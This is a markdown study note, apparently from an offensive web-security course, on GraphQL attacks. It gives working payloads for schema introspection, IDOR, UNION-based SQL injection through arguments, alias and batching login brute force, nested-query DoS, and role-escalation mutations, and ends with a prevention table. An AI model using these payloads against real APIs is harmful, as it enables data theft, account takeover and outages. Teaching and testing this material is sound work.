

# Intro to GraphQL

#GraphQL #API #Introspection #IDOR #SQLInjection #DoS #Batching #Aliases #Variables #Mutations #Subscriptions #WebAppAttacks #graphw00f #graphqlcop

## What is this?

GraphQL is a query language for APIs — a **single endpoint** (usually `/graphql`) where the client asks for exactly the fields it wants across related objects, instead of REST's many fixed endpoints. That flexibility *is* the security story: one endpoint exposes the whole data graph, **introspection** hands an attacker the entire schema, and every REST bug class (IDOR, SQLi, XSS, broken authz) still applies — plus GraphQL-native ones: **nested-query DoS**, **batching** brute-force amplification, and **mutation**-driven privilege escalation. This note is the foundational tour + the core attacks; for the deep toolkit (NoSQL/SSRF, introspection-disabled schema recovery, directive abuse, subscription DoS, and the current DoS CVEs) see [[Class notes/HTB Academy/CWES Claude/GraphQL Attacks|GraphQL Attacks]]. Pairs with [[Class notes/HTB Academy/CWES Claude/API Attacks|API Attacks]], [[SQL Injection]], [[Web Attacks]]. Protocol context — GraphQL is the third API style alongside [[Standards & Protocols/REST|REST]] and [[Standards & Protocols/SOAP|SOAP]] (one endpoint + a typed schema instead of many REST routes).

---

## Tools

| Tool | Use |
|---|---|
| [[Tools/Web/Burpsuite\|Burp Suite]] | Intercept `/graphql` requests; the **InQL** extension handles schema + query generation without wrestling the JSON |
| [[Tools/Web/graphw00f\|graphw00f]] | Fingerprint the engine (Graphene, Apollo, Hasura…) and map it to the graphql-threat-matrix |
| [GraphQL Voyager](https://graphql-kit.com/graphql-voyager/) | Visualize the schema from an introspection dump — spot IDOR paths and DoS loops at a glance |
| [[Tools/Web/graphql-cop\|graphql-cop]] | Fast security audit — flags introspection, batching, field suggestions, and missing DoS guards |
| [InQL](https://github.com/doyensec/inql) | Burp extension — introspection, schema tree, query generation (BApp Store) |
| [[Tools/File Transfer/cURL\|curl]] | Manual query/mutation testing from the CLI |

---

## GraphQL in 60 seconds

One endpoint, everything is `POST`-ed as JSON `{"query": "..."}`. A query **selects fields** of typed objects; **arguments** filter; **sub-queries** traverse relationships.

```graphql
# Select fields of every User
{ users { id username role } }

# Filter with an argument, and ask for a field the UI never shows
{ users(username: "admin") { id username password } }

# Traverse a relationship (post → its author)
{ posts { title author { username role } } }
```

> [!tip]
> The client picks the fields — so *always* ask for sensitive fields (`password`, `role`, `email`) even if the UI never displays them. Half of GraphQL "findings" are just requesting a field the developer assumed no one would.

---

## Reading a Real Request

The `{ users { id } }` shorthand above is what you *write*; this is what actually crosses the wire and what you'll be tampering in Burp:

```http
POST /graphql HTTP/1.1
Content-Type: application/json

{"operationName":"GetUser",
 "query":"query GetUser($u: String!) { user(username: $u) { id username role } }",
 "variables":{"u":"admin"}}
```

| Key | What it is | Why it matters to you |
|---|---|---|
| `query` | The operation text — a `query` (read), `mutation` (write), or `subscription` (a long-lived stream over WebSocket) | The whole document; `subscription` is a separate transport — see [[Class notes/HTB Academy/CWES Claude/GraphQL Attacks\|GraphQL Attacks]] |
| `variables` | JSON object supplying the `$name` values declared in the operation | **Try the injection here first** — a payload in `variables` skips any filter or WAF rule that pattern-matches the `query` string |
| `operationName` | Picks which named operation runs when the document defines several | Required once there's more than one |

> [!tip] Real clients almost always send **variables**, not inlined literals — so a captured request shows `user(username: $u)` and the actual value sits in a separate JSON object. Change it there and you keep the request shape the server expects.

### Aliases — and why they beat batching defenses

An **alias** renames a field in the response, which lets you ask for the *same* field many times in **one** operation:

```graphql
{
  a: user(username: "admin")  { id role }
  b: user(username: "root")   { id role }
  c: user(username: "backup") { id role }
}
# → {"data":{"a":{...},"b":{...},"c":{...}}}
```

```graphql
# The same trick turns one request into a password-guessing run
mutation {
  a: login(username:"admin", password:"Password1") { token }
  b: login(username:"admin", password:"Password2") { token }
  c: login(username:"admin", password:"Password3") { token }
}
```

> [!warning] **This is not the array batching described below, and defences often only stop that one.** Disabling batching (or counting operations per request) doesn't help here: an aliased document is a *single* operation. Only **query-complexity/cost limits**, depth limits, or rate limiting applied **per resolved field** actually stop it. Same restraint applies as with batching — demonstrate that the guard is missing against a baseline, don't run thousands of real login attempts on a production target.

### Fragments

A **fragment** is a named, reusable field set — worth recognising because real captured queries are full of them, and because recursive fragments are a DoS primitive:

```graphql
fragment userFields on UserObject { id username role }
{ users { ...userFields } }
```

### 200 OK Is Not Success

GraphQL answers almost everything with **HTTP 200** and reports failure *inside* the body:

```json
{"data":{"user":null},
 "errors":[{"message":"Cannot query field \"passwrd\" on type \"UserObject\". Did you mean \"password\"?"}]}
```

- **Status-code filtering is useless here** — `-mc 200` / "did it work?" checks by status see success for every malformed query. Read the `errors` array instead.
- `data` and `errors` can both be populated: a query can **partially** succeed, returning some fields while an authorization check nulls others.
- Those `Did you mean …` **field suggestions** are the schema leak that makes introspection-disabled targets enumerable — the workflow the Introspection note below points at.

---

## Information Disclosure — Fingerprint & Introspect

### Fingerprint the engine

```bash
# graphw00f auto-finds the endpoint (-d) and fingerprints the engine (-f)
python3 main.py -d -f -t http://<TARGET_IP>
# → "Discovered GraphQL Engine: (Graphene)" + a graphql-threat-matrix link
```

Then just browse to `/graphql` — many deployments expose a **GraphiQL / Playground** UI, far easier than crafting JSON in Burp.

### Introspection — the schema is the map

Introspection is a built-in feature that lets you query the API *about itself* via the `__schema` / `__type` meta-fields.

```graphql
# All types the backend defines
{ __schema { types { name } } }

# All fields (and their data types) of one type
{ __type(name: "UserObject") { fields { name type { name kind } } } }

# All available queries
{ __schema { queryType { fields { name description } } } }
```

The full `IntrospectionQuery` (the big recursive one every client sends) dumps *everything*; paste its JSON into **GraphQL Voyager** to get a clickable schema map of queries, types, and — importantly — the **relationships** between objects.

> [!warning] In a real engagement, **self-host** GraphQL Voyager (it's open-source) instead of pasting the target's introspection JSON into the public demo — the schema exposes internal structure and shouldn't leave your machine.

> [!note]
> Introspection is often **disabled in production**. That's not a dead end — recover the schema from **field-suggestion** error messages (`"Did you mean user?"`) or brute-force it with **clairvoyance**. Full bypass workflow in [[Class notes/HTB Academy/CWES Claude/GraphQL Attacks|GraphQL Attacks]].

---

## IDOR / Broken Authorization

GraphQL does *not* add authorization — resolvers do, and often don't. If a `user(username: ...)` query returns your data, try someone else's:

```graphql
# Your own profile is auto-queried; swap the argument to another known user
{ user(username: "test") { id username msg role } }

# Then use the introspected field list to pull what you shouldn't see
{ user(username: "test") { username password } }
```

No authorization check → you read arbitrary users' data (and, per the tip above, fields the UI hides). IDOR background: [[Web Attacks]].

---

## Injection

GraphQL is a *front-end* to a backend datastore — arguments flow into SQL/NoSQL/OS calls, so the classic injections live in the **arguments**.

### SQL injection via arguments

First find which queries even *take* arguments — send one with **none** and read the error, which names the required argument and its type (works even when introspection is off):

```graphql
{ postByAuthor { id title } }
# → error: argument "author" of type "String!" is required but not provided
```

Then probe each argument for injection:

```graphql
# A single quote in an argument that reaches SQL → error confirms it
{ user(username: "htb-stdnt'") { uuid username role } }
```

Because each queried **field maps to a returned column**, a UNION payload needs **as many columns as the object has fields** (e.g. a 6-field `UserObject` → 6 columns), and the field you request determines which column reflects:

```graphql
{ user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") { username } }
# username is the 3rd field → table names come back in the username value
```

From there it's ordinary SQLi — see [[SQL Injection]]. (NoSQL / SSRF variants: [[Class notes/HTB Academy/CWES Claude/GraphQL Attacks|GraphQL Attacks]].)

### XSS

Query results rendered into HTML without encoding, or **reflected in error messages**, give XSS — send a type-mismatched argument (a string where an `Int` is expected) and watch whether the payload comes back unencoded in the error. Context/exploitation: [[Cross-Site Scripting (XSS)]].

---

## Denial-of-Service & Batching

### Circular-reference nesting

The schema map almost always contains a **loop** — e.g. a `UserObject` has `posts`, and a `PostObject` has an `author` back:



Walk that loop (`author → posts → author → …`) and the response grows **exponentially** with each level — nest it deep enough and the server (or even GraphiQL) falls over:

```graphql
{ posts { author { posts { edges { node { author { username } } } } } } }
# ...repeat the author→posts→edges→node block as many times as you like
```

### Batching — brute-force amplification

Batching packs **many operations into one HTTP request** (a JSON array of queries). It's an intended feature, but it **defeats rate limits**: 1000 login queries in a single request turns "5 attempts/sec" into 5000 passwords/sec.

```http
POST /graphql HTTP/1.1
Content-Type: application/json

[ {"query":"{user(username:\"admin\"){uuid}}"}, {"query":"{post(id:1){title}}"} ]
```

> [!warning]
> Deep-nesting and 1000-query batches are genuinely destructive — confirm the *guard is missing* (a big jump vs a baseline query) rather than actually crashing a production endpoint. Advanced DoS (directive overload **CVE-2024-47614**, circular fragments, subscription exhaustion) is in [[Class notes/HTB Academy/CWES Claude/GraphQL Attacks|GraphQL Attacks]].

---

## Mutations — Privilege Escalation

**Mutations** are the write half (create/update/delete). Enumerate them by introspecting `mutationType`, then inspect their input objects:

```graphql
{ __schema { mutationType { fields { name args { name type { name } } } } } }
{ __type(name: "RegisterUserInput") { inputFields { name } } }
```

If a self-service `registerUser` mutation exposes a **`role`** input field, set it yourself:

```graphql
mutation {
  registerUser(input: {username: "pwn", password: "<md5>", role: "admin", msg: "x"}) {
    user { username role }
  }
}
# role: "admin" reflected back → log in → /admin reachable = privesc
```

> [!note] That `<md5>` placeholder matters: a `password` input often expects a **pre-formatted** value (here an MD5 hash, matching how existing rows are stored). Inspect the schema or an existing record, then hash before sending — e.g. `echo -n 'password' | md5sum`.

The lesson generalizes: any mutation input that maps to a privileged attribute (role, group, `isAdmin`, price, owner) is a mass-assignment escalation candidate — same class as [[Class notes/HTB Academy/CWES Claude/API Attacks|API Attacks]]' mass assignment.

---

## Prevention

| Area | Control |
|---|---|
| Information disclosure | Disable introspection in prod; generic (non-verbose) errors; strip sensitive fields |
| Injection | Validate/parameterize every argument; allowlist over denylist |
| DoS | Query **depth** + **complexity/cost** limits; disable (or depth-limit) **batching**; rate-limit the endpoint |
| Authorization | Authn before the endpoint; per-resolver authz on **queries *and* mutations**; least privilege |

Reference: OWASP GraphQL Cheat Sheet.

---

## Quick Reference

| Goal | Query / command |
|---|---|
| Confirm GraphQL | `curl -s <t>/graphql -H 'Content-Type: application/json' -d '{"query":"{__typename}"}'` |
| Fingerprint engine | `python3 graphw00f/main.py -d -f -t <t>` |
| Dump schema (types) | `{ __schema { types { name } } }` |
| Fields of a type | `{ __type(name:"UserObject"){ fields { name } } }` |
| List mutations | `{ __schema { mutationType { fields { name } } } }` |
| One-shot audit | `python3 graphql-cop.py -t <t>/graphql` |
| IDOR test | `{ user(username:"<other>") { username password } }` |
| SQLi probe | `{ user(username:"x'") { username } }` → SQL error = vulnerable |
| Privesc | `mutation { registerUser(input:{...role:"admin"}) { user { role } } }` |
| Introspection disabled | recover via field suggestions / clairvoyance → [[Class notes/HTB Academy/CWES Claude/GraphQL Attacks|GraphQL Attacks]] |
| Send a query with variables | `-d '{"query":"query($u:String!){user(username:$u){id role}}","variables":{"u":"admin"}}'` |
| Alias brute force (1 request) | `mutation { a: login(password:"p1"){token} b: login(password:"p2"){token} }` |
| Check for success | Read the `errors` array — GraphQL returns **200 even on failure** |

---

*Created: 2026-07-31*
*Updated: 2026-09-22*
*Model: claude-opus-5*
